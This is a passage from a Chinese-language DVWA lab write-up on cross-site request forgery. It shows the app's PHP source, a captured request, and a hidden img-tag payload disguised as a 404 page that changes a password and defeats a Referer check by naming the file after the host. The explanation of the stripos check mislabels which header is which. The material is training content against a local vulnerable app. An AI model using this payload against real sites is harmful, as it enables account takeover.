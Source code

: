 ```php
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```
检查对比这两个是否一致，stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ])，这个函数表示SERVER_NAME中要含有HTTP_REFERER字符串，HTTP_REFERER参数是Referer，SERVER_NAME是Host。
```http
GET /dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change HTTP/1.1
Host: 127.0.0.1:9000		# $_SERVER[ 'HTTP_REFERER' ] 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://127.0.0.1:9000/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=&Change=Change	# $_SERVER[ 'SERVER_NAME' ]
Cookie: security=medium; PHPSESSID=pmdmqodk88goddna16tm61td55
Upgrade-Insecure-Requests: 1
```

#### 解题思路
- 构造恶意HTML页面，并将HTML用目标主机IP命名。写入以下代码：

```html
<img src="http://127.0.0.1:9000/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change" border="0" style="display:none;" />
<h1>404</h1>
<h2>file not found.</h2>
```

最后访问这个文件：http://127.0.0.1:9000/dvwa/vulnerabilities/csrf/127.0.0.1.html即可。



## 0x03 High

#### 源码分析
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
```